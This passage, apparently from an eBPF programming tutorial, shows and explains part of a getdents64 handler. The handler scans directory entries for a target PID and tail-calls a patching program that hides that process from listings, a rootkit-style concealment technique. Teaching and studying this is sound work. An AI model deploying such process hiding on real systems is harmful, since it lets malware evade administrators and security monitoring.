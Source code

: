 ```c
        if (bpos >= total_bytes_read) {
            break;
        }
        dirp = (struct linux_dirent64 *)(buff_addr+bpos);
        bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);
        bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);

        int j = 0;
        for (j = 0; j < pid_to_hide_len; j++) {
            if (filename[j] != pid_to_hide[j]) {
                break;
            }
        }
        if (j == pid_to_hide_len) {
            // ***********
            // We've found the folder!!!
            // Jump to handle_getdents_patch so we can remove it!
            // ***********
            bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
            bpf_map_delete_elem(&map_buffs, &pid_tgid);
            bpf_tail_call(ctx, &map_prog_array, PROG_02);
        }
        bpf_map_update_elem(&map_to_patch, &pid_tgid, &dirp, BPF_ANY);
        bpos += d_reclen;
    }

    // If we didn't find it, but there's still more to read,
    // jump back the start of this function and keep looking
    if (bpos < total_bytes_read) {
        bpf_map_update_elem(&map_bytes_read, &pid_tgid, &bpos, BPF_ANY);
        bpf_tail_call(ctx, &map_prog_array, PROG_01);
    }
    bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
    bpf_map_delete_elem(&map_buffs, &pid_tgid);

    return 0;
}

```

In this function, we first get the PID and thread group ID of the current process, and then check to see if the system call has read the contents of the directory. If it didn't read the contents, we just return.

Then we get the address of the directory contents saved at the entry point of the `getdents64` system call from the `map_buffs` map. If we haven't saved this address, then there's no need to do any further processing.

The next part is a bit more complicated, we use a loop to iteratively read the contents of the directory and check to see if we have the PID of the process we want to hide, and if we do, we use the `bpf_tail_call` function to jump to the `handle_getdents_patch` function to do the actual hiding.
